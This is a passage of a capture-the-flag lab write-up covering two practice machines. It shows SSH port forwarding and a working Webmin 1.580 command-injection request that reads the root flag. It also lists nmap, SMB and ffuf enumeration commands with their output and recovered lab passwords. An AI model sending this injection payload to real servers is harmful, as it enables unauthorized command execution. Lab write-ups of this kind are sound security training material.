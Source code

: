 Next step is to link port 10000 to our local machine to expose it:
`ssh -L 10000:localhost:10000 agent47@10.10.116.75`.

Now you can do nmap etc as usual. The website is running Webmin 1.580. There is an exploit post-authentication on [exploit-db](https://www.exploit-db.com/exploits/21851).

The website let's us login with the previously found credentials: `agent47:videogamer124`. WIN!

So we will not use Metasploit this time, instead we analyze the code of the exploit and find out that we can just do command injection manually:
```
GET /file/show.cgi/bin/5|echo 4| HTTP/1.1
Host: 127.0.0.1:10000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:10000/
Connection: close
Cookie: testing=1; sid=8e5c7908ac495569ce45198277e1c66b
Upgrade-Insecure-Requests: 1
```

Finally, replace `echo 4` with `cat /root/root.txt` to get the root flag.


### Day 6 - More to come

#### Skynet

```
nmap -sC -sV -T5 --min-rate 2500 target -oN nmap.log
nmap --script vuln -p139,445 target
smbclient //target/anonymous #get all text files
ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://target/FUZZ
```

Result:
```
.htaccess               [Status: 403, Size: 271, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 271, Words: 20, Lines: 10]
admin                   [Status: 301, Size: 300, Words: 20, Lines: 10]
ai                      [Status: 301, Size: 297, Words: 20, Lines: 10]
config                  [Status: 301, Size: 301, Words: 20, Lines: 10]
css                     [Status: 301, Size: 298, Words: 20, Lines: 10]
js                      [Status: 301, Size: 297, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 271, Words: 20, Lines: 10]
squirrelmail            [Status: 301, Size: 307, Words: 20, Lines: 10]
```

##### Get the passwords

squirrelmail
```
milesdyson:cyborg007haloterminator
```
which was just the longest one in `log1.txt`.
